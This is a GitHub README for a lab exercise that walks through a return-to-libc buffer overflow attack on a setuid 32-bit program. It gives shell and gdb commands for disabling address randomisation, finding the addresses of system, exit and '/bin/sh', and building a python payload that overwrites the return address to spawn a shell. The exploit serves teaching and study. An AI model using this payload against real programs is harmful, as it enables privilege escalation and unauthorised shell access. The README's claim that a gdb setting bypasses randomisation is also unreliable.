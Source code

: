 # Return-To-LibC-Attack
The Return-To-Libc attack, commonly known as RTL is an attack that is profoundly known for exploiting weaknesses of a Buffer Overflow condition on a system with a non-executable stack. In this type of attack, the attack uses a tactic similar to the typical buffer overflow attack, where the return address is used to redirect the program to a different source [1]. 
But unlike a normal Buffer Overflow attack, RTL uses function provided by inbuilt library i.e. the system() call. The attacker can then overwrite the return address space and assign address of the shell code i.e. ‘/bin/sh’ address in our case. This will allow the attacker to gain access to the command shell and allow him/her to extract information from the system [3].

Now, steps used to perform the attack:

1. Turn off address randomization</br>
**Command:**
-	$ sudo sysctl -w kernel.randomize_va_space=0
enter password: dees
 kernel.randomize_va_space = 0

2. Set Environment Variables for /bin/sh address</br>
**Command:**
$ export MYSHELL="/bin/sh"

3. Executing the vul.c file to understand the registers and their current addresses</br> 
**Command:**
-	$  gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ chmod 4755 vul
-	$ gdb ./vul

<p align="center">
<img src="/Images/1.png" width=400 height=400>
</p>
 
4. Overflowing the Buffer with all ‘A’ to check ending limit of Return Address(EIP)</br>
**Command:** 
-	$ (python -c 'print "A"*27')> badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul

<p align="center">
<img src="/Images/2.png" width=400 height=400>
</p>

5. Extract 'system' & 'exit' addresses by compiling and running the vul.c file once</br>
**Command:**
-	(gdb) r
-	(gdb) p system
 $1 = {<text variable, no debug info>} 0xb7e5f430 <system>
-	(gdb) p exit
 $2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>

6. Extract the address for '/bin/sh' using exp.c file</br> 
**Command:**
- $ gcc -g -fno-stack-protector -m32 exp.c -o exp 
- $ gdb ./exp
- (gdb) r

--> Starting program: /home/seed/exp  
    bffffe8f  
    [Inferior 1 (process 4738) exited normally] 
    
<p align="center">
<img src="/Images/3.png" width=400 height=400>
</p>

7. Now perform the attack by using a python script and concatenation addresses for 'system', 'exit'& '/bin/sh'</br>
**Command:**
-	$ (python -c'print "A"*23 +"\x30\xf4\xe5\xb7"+"\xb0\x2f\xe5\xb7"+"\x8f\xfe\xff\xbf"')>badfile
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) r

--> Starting program: /home/seed/vul 
Read from file: AAAAAAAAAAAAAAAAAAAAAAA0�巰/巏���  
$  
<p align="center">
<img src="/Images/4.png" width=400 height=400>
</p>
<p align="center">
<img src="/Images/5.png" width=400 height=400>
</p>

8. Now, in order to execute the attack even when the kernel is generating random addresses, use following commands along with commands from steps 1-7</br>
**Commands:**
-	$ sudo sysctl -w kernel.randomize_va_space=2
enter password: dees
--> kernel.randomize_va_space = 2
-	$ gcc -g -fno-stack-protector -m32 vul.c -o vul
-	$ gdb ./vul
-	(gdb) set disable-randomization off
-	(gdb) r

Here, we use set disable-randomization off command to bypass the kernel address randomization inside the gdb debugger.

